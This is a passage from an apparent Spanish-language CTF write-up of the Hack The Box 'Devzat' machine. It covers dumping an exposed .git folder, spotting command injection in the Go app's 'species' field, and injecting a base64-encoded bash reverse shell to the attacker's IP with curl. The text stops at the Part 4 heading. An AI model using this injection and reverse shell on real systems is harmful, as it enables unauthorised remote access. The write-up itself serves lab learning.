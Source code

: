 ---------------------
## Part 3: Analizando el repo de pets

Como no hay nada interesante, en ambas webs trato de buscar la carpeta /.git (porque antes mencionaban lo de las branches y la version inestable).  
Este .git existe en el de pets.  

![devzat1](https://user-images.githubusercontent.com/96772264/200538205-71d74bc3-1fbc-4c39-b329-81758c318486.PNG)

Hay una herramienta para armar los repos llamada git-dumper ```sudo pip install git-dumper```  
```console
└─$ git-dumper http://pets.devzat.htb/.git/ ./.git
└─$ git log 
ef07a04 (HEAD -> master) back again to localhost only  
464614f fixed broken fonts
8274d7a init
└─$ git diff ef07a04 464614f  # Ahora solo funciona en el localhost, puerto 5000
└─$ git diff ef07a04 8274d7a  # Tema de fuentes 
└─$ git branch -a  # Solo la * master (para las otras igual) 
```
En la carpeta **/characteristics** hay archivos de varios animales con textos "Having a cat is like living in a shared apartment."  
El codigo fuente de la app está en **/src/App.svelte** y **/main.go**   
Analizamos el main.go en busqueda de funciones peligrosas:  
```console
└─$ cat main.go | grep -E "system|exec"
cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
```
Parece que hay que introducirle un animal y te muestra su seccion de la carpeta characteristics.    
O sea si species es *gato* pues te sale lo del *gato*.    

En la web hay una sección para elegir un animal y que se añada a la lista con la descripción.    
Ej si pones un perro llamado "Pizarro" se añadira con la descripción del perro de la carpeta **/characteristicas**  

![devzat3](https://user-images.githubusercontent.com/96772264/200538269-59677299-2982-4327-8aef-d2c4588abbd5.PNG)

Añadimos un gato llamado "Benito":  
```/POST a http://pets.devzat/api/pet {"name":"Benito","species":"cat"}```
Segun lo de antes la parte vulnerable es species.  

Si pongo ";id" en species no sale nada raro, pero si me hago un ping ```";ping -c 1 10.10.14.12"``` recibo traza (```sudo tcpdump -i tun0 icmp -n```)
```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
└─$ curl -s -X POST "http://pets.devzat.htb/api/pet" -H "Content-type: application/json"
-d '{"Name":"Benito", "Species":"; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash "}'
```
-----------------------------
## Part 4: Entrando en el sistema
